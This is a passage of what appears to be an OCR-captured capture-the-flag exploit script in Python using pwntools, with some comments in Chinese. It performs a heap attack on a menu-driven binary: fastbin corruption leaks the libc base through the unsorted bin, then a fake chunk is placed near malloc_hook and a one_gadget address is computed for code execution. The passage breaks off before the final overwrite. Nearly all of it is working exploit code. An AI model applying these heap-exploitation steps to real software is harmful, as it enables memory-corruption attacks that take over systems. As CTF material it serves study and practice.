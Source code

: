 ```python
    p.send(content)
def free(idx):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
def dump(idx):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
def exp():
    # 1. leak libc base
    allocate(0x10)  # idx 0, 0x00
    allocate(0x10)  # idx 1, 0x20
    allocate(0x10)  # idx 2, 0x40
    allocate(0x10)  # idx 3, 0x60
    allocate(0x80)  # idx 4, 0x80
    # free idx 1, 2, fastbin[0]->idx1->idx2->NULL
    free(2)
    free(1)
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)

    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    #调试得到main_arena_offset
    # vmmap 查看 第一个 .os 的其实地址 为 libc_base
    # main_arena - libc_base = main_arena_offset
    main_arena_offset = 0x3c4b20  
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))

    # 2. malloc to malloc_hook nearby
    # allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
    allocate(0x60)
    free(4)
    # edit idx4's fd point to fake chunk
    fake_chunk_addr = main_arena - 0x33 # 错位
    log.success('fake_chunk_addr: '+hex(fake_chunk_addr))
    fake_chunk = p64(fake_chunk_addr)
    fill(2, len(fake_chunk), fake_chunk)
    allocate(0x60)  # idx 4
    allocate(0x60)  # idx 6

    one_gadget_addr = libc_base + 0x4526a # one_gadget
    log.success("one_gadget_addr = "+hex(one_gadget_addr))
```
